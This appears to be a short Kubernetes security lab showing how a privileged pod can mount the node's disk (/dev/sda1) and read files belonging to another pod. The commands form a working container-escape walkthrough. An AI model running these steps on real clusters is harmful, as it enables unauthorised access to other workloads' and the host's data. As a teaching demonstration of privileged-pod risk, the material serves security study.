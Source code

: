 #### Step 1 - Create a Non-Priveleged Super Secret Pod:
```sh
nano super-secret-pod.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: super-secret
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
```
```sh
kubectl apply -f super-secret-pod.yaml
```
#### Step 2 - Create a Privileged Pod:
```sh
nano privileged.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: privileged
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
    securityContext:
      privileged: true
```
```sh
kubectl apply -f privileged.yaml
```
#### Step 3 - Store Secret Data in Super Secret Pod:
```sh
kubectl exec -n development -it super-secret -- bash
echo "TOP Secret" > /root/super-secret.txt
```
logout of the super-secret pod

#### Step 4 - Connect to Privileged Pod:

Note: The disk name might be different in your-case. Please ensure you use the right naming while mounting.
```sh
kubectl exec -it privileged -- bash
mkdir /host-data
```
```sh
mount /dev/sda1 /host-data
cd /host-data
cd /host-data/var/lib/docker/
find . -name super-secret.txt
```
